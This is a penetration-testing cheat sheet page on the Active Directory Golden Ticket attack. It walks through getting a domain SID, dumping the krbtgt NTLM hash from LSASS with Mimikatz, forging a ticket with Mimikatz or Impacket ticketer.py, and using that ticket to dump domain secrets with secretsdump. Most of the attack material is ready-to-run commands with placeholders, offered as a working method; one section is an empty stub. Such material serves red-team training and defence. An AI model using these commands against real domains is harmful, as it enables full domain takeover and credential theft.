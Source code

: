 # Golden Ticket

#### Priv Required: <mark style="color:purple;">Domain Admin account</mark>

A **Golden Ticket attack** consist on the **creation** of a legitimate Ticket Granding Ticket (TGT) **impersonating any user** through the use of the NTLM hash of the Acrive Directory (AD) **krbtgt account**.\
This tenchnique is particularly advantageos because it enables access to any service or machine within the domain as the impersonated user. It's crucial to remember that the krbtgt account's credentials are never automatically updated.

#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-privilege-escalation/kerberoasting.md" %}
[kerberoasting.md](../ad-privilege-escalation/kerberoasting.md)
{% endcontent-ref %}



## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NANE.local
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack



To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
cd /usr/share/doc/python3-impacket/examples/
# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER"

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```
{% endcode %}



## Use Golden Ticket

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

KRB5CCNAME="NAME.ccache" secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}



## GolenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







